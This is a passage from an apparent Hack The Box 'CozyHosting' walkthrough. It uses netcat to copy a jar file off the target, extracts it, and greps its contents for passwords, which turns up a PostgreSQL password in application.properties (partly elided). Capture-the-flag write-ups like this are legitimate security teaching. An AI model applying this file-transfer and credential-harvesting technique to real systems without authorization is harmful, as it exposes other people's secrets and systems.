 ```bash
# On the attacking machine

nc ip_of_target port_of_target > ch.jar
```

Now that we have it in our machine lets extract the contents of the jar file by running:

```bash
jar xf jar_archive.jar
```

There are three directories here. The boot one sounds like it would be a good place to start. Let's grep through the file to see if we can find credentials.

```bash
(h0ax㉿kracken)-[~/htb/boxes/easy/cozy]
└─$ grep -rwni 'password' BOOT-INF                     
BOOT-INF/classes/templates/login.html:57:                                        <label for="yourPassword" class="form-label">Password</label>
BOOT-INF/classes/templates/login.html:58:                                        <input type="password" name="password" class="form-control" id="yourPassword"
BOOT-INF/classes/templates/login.html:60:                                        <div class="invalid-feedback">Please enter your password!</div>
BOOT-INF/classes/templates/login.html:73:                                    <p th:if="${param.error}" class="text-center small">Invalid username or password</p>
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.css:1276:.ri-lock-password-fill:before { content: "\eecf"; }
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.css:1277:.ri-lock-password-line:before { content: "\eed0"; }
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.svg:3710:    <glyph glyph-name="lock-password-fill"
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.svg:3713:    <glyph glyph-name="lock-password-line"
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.less:1277:.ri-lock-password-fill:before { content: "\eecf"; }
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.less:1278:.ri-lock-password-line:before { content: "\eed0"; }
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.symbol.svg:6155:</symbol><symbol viewBox="0 0 24 24" id="ri-lock-password-fill">
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.symbol.svg:6160:</symbol><symbol viewBox="0 0 24 24" id="ri-lock-password-line">
grep: BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.eot: binary file matches
grep: BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.ttf: binary file matches
grep: BOOT-INF/classes/htb/cloudhosting/scheduled/FakeUser.class: binary file matches
grep: BOOT-INF/classes/htb/cloudhosting/database/CozyUser.class: binary file matches
grep: BOOT-INF/classes/htb/cloudhosting/secutiry/SecurityConfig.class: binary file matches
BOOT-INF/classes/application.properties:12:spring.datasource.password=Vg&nv....... #pass here
grep: BOOT-INF/lib/spring-security-crypto-6.0.1.jar: binary file matches
```

Nice we found a password! Let's also open up that file in a text editor.

```
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nv.......
```

